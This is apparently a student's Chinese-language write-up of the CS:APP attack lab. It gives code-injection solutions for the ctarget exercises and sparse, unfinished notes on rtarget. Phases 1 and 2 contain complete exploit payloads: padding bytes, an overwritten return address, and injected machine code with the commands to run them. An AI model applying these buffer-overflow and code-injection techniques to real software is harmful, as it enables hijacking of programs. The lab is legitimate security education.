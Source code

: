 # lab3 attacklab

准备工作：获取2个目标代码的汇编代码：  
objdump -d ctarget > ctarget.s  
objdump -d rtarget > rtarget.s

## phase 1(ctarget level1)

要求：在执行完test()中的getbuf()函数后，不是返回到test()中，而是去执行touch1()函数。  

题解：只需要把栈上面的返回地址覆盖成touch1函数的地址004017c0即可。
但因为小端的问题，所以地址要反过来写：c0 17 40 00

可以看到getbuf函数一开始先给栈分配了40个字节的空间，所以需要把这40个字节填满，再写入地址：
(cl1hex.txt的内容)

41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50 /* 40个字节 */  
c0 17 40 00 /* touch1()的地址 */

运行phase1的操作：  
./hex2raw < cl1hex.txt > cl1raw.txt  
./ctarget -q < cl1raw.txt


## phase2 (ctarget level2)

要求：在执行完test()中的getbuf()函数后，执行touch2()函数，并且需要给touch2()传递一个整型的参数(cookie)

题解：
汇编代码：
sub dif,%rsp #dif还要算, 让rsp指向 touch2的位置
mov 0x59b997fa, %rdi
retq
touch2的地址。
补全40个字节。
返回到 injection code 第一条指令的位置

把栈给画出来即可(注意指令是从下往上执行的，即从地址低的地方 向地址高的地方执行)：

<img src="mdpics/cl2.png" height="280" width="330">

步骤：
1. 把需要用到的命令放在cl2Draft.s中，使用gcc命令编译成目标代码：
gcc -c cl2Draft.s
得到一个目标代码： cl2Draft.o

2. 反汇编 成汇编代码：
objdump -d cl2Draft.o > cl2Binary.s
得到文件 cl2Binary.s

3. 查看cl2Binary.s中的二进制代码
修改并 加入 地址那些内容，写入文件 cl2hex.txt中。得到的内容为：

48 83 ec 24         	/* sub $0x24(36),%rsp  让rsp指向touch2的地址的位置 */
48 c7 c7 fa 97 b9 59 	/* mov 0x59b997fa,%rdi 给touch2传递参数 */
c3                   	/* retq */
ec 17 40 00 00 00 00 00 /* 函数touch2的地址 现在这里有20个字节 */
41 42 43 44 45 46 47 48 49 50 
41 42 43 44 45 46 47 48 49 50 /* 刚好40个字节 */
78 dc 61 55             
/* 返回的injection code的地址 也就是 第一行命令"sub    $0x24(36),%rsp"的地址 */

4. 把 cl2hex.txt 转换成 cl2raw.txt：
./hex2raw < cl2hex.txt > cl2raw.txt

5. 运行程序：
./ctarget -q < cl2raw.txt


# phase3 (ctarget level3)
要求：在执行完test()中的getbuf()函数后，执行touch3()函数，并且需要给touch2()传递一个字符串类型的参数(cookie)

和ctarget level2非常类似，但 需要注意 输入的参数变量(字符串cookie)是字符串类型的，所以需要把它放在栈中，并且需要注意这个字符串不能 被后面执行的函数给覆盖。
而把 cookie放在比rsp的地址 更大的地方，就不会被覆盖。

栈的样子：


1. 把需要用到的命令放在cl3Draft.s中，使用gcc命令编译成目标代码：
gcc -c cl3Draft.s
得到一个目标代码： cl3Draft.o

2. 反汇编 成汇编代码：
objdump -d cl3Draft.o > cl3Binary.s
得到文件 cl3Binary.s

3. 查看cl3Binary.s中的二进制代码
修改并 加入 地址那些内容，写入文件 cl3hex.txt中

4. 把 cl3hex.txt 转换成 cl3raw.txt：
./hex2raw < cl3hex.txt > cl3raw.txt

5. 运行程序：
./ctarget -q < cl3raw.txt


rtarget level2:

每次 Gets完之后，rsp的值都不一样的，但 很神奇的是，它所指向的地址的内容都是 一样的，即：
print /x *(long *) $rsp 都一样。在这个位置放 要使用的代码的 位置即可。


rtarget level3:





